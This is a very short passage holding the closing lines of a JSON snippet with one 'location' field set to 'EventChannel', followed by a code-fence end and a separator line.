  "location": "EventChannel"
}
```

---

